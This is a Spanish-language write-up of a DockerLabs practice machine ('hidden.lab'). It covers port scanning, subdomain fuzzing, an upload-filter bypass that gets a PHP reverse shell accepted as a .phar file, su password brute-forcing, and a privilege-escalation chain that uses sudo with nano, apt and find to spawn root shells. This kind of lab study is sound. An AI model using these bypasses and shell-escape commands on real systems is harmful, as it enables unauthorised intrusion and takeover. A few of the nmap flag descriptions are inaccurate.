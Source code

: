 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/40b148ea-a563-4357-a3e8-251fc83ac716)

En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.

### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

2. **80/tcp (HTTP ):** Apache httpd 2.4.52

### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Y se encontró un error que dice que no se encontró hidden.lab DNS. Tuve que modificar mi /etc/hosts para que funcionara correctamente.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/772a1143-a2e4-4120-89fb-b7cca6dd7fdf)

# Fase 2- Exploración

#### Feroxbuster
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/eda32117-ca1f-4340-ae0c-cee981ff2866)
Tras no encontrar nada interesante aplicando fuzzing, mas que unos archivos js y css. Así que se procedió a enumerar posibles subdominios.
```ruby
wfuzz -c --hl=9 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.hidden.lab" -u 172.17.0.2
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                              
=====================================================================

000000019:   200        57 L     130 W      1653 Ch     "dev"    
```
Encontramos **dev.hidden.lab**, lo tendremos que añadir también al **/etc/hosts** y lo abriremos en el navegador.

#### Dev
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/4680d51f-c0ea-4e08-825b-21e798dc56af)
Vemos que podemos subir archivos, pero solo con extensión PDF.

# Fase 3- Explotación

#### php?
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/8252b924-40b5-478e-a283-5cf238bac7ee)
Probamos subir un archivo .php con una reverse shell. e interceptar la petición con burpsuite.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/4341d2e5-283e-4e99-88e4-c222adf8a3de)

vamos a cambiar la extensión de .php a .phar que sigue siendo valida para archivos .php.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/4b457d1b-c045-438e-9132-da9515afc0c4)

Y funciono.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/0864b383-a325-4128-b309-b8056a55964c)

Fuimos al directorio /uploads y encontramos los archivos .phar

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/7c8c2b21-b65c-45f5-8ceb-aabce690ea5b)

Al ponernos en modo escucha y ejecutar el archivo funciono, estamos dentro!.

# Fase 4- Privilegios

#### Sudo -l y algo mas...
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/3732a4bd-2a65-413c-90e5-4a7b0a2d717f)

No me deja hacer `sudo -l` y no encontré nada mas en los directorios mas que el nombre de tres usuarios:
```ruby
obby  cafetero  john
```
Vamos a probar realizar fuerza bruta desde adentro de la maquina, para esto subí 2 archivos, rockyou.txt pero reduci su tamaño porque sino no me dejaba. Y Linux-Su-Force.sh.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/ca210409-251d-47a5-9916-98bc49739cea)

Se encontró la contraseña del usuario cafetero.

#### Sudo -l
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/56407bee-0ace-40ab-a731-63edbd44ec05)

Estando como el usuario cafetero, al hacer un `sudo -l`, vemos que podemos ejecutar como sudo el binario nano.

#### Nano
Ejecutamos sudo -l y vemos que podemos escalar privilegios al usuario John utilizando nano. Usamos GTFObins para encontrar el siguiente comando:

```ruby
sudo -u john /usr/bin/nano
^R^X
reset; sh 1>&0 2>&0
```
Ahora somos John.

#### Bobby
Ahora que somos John. Ejecutamos sudo -l de nuevo y vemos que podemos escalar a Bobby con el binario apt.
Para escalar a Bobby, ejecutamos:
```
sudo -u bobby /usr/bin/apt changelog apt
!/bin/sh
```

Finalmente, usamos el binario find para escalar a root con el siguiente comando:
```ruby
sudo -u root /usr/bin/find . -exec /bin/sh \; -quit
```
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/04c25423-3b90-4bda-9293-3fa5d2289c24)

